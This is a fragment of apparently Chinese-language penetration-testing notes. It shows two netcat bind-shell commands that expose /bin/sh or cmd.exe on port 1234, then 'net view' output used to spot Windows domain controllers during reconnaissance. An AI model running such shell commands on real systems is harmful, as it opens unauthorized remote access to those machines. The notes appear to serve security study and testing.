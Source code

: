```
```
![](./pic/3_proxy/1.jpg)  


##### 正向shell
```
1、nc -e /bin/sh -lp 1234

2、nc.exe -e cmd.exe -lp 1234
```

### 信息收集(结构分析)  
##### 基本命令  
1、获取当前组的计算机名(一般remark有Dc可能是域控)：  
```
C:\Documents and Settings\Administrator\Desktop>net view
Server Name            Remark

-----------------------------------------------------------------------------
\\DC1
\\DM-WINXP
\\DM_WIN03
The command completed successfully.
```
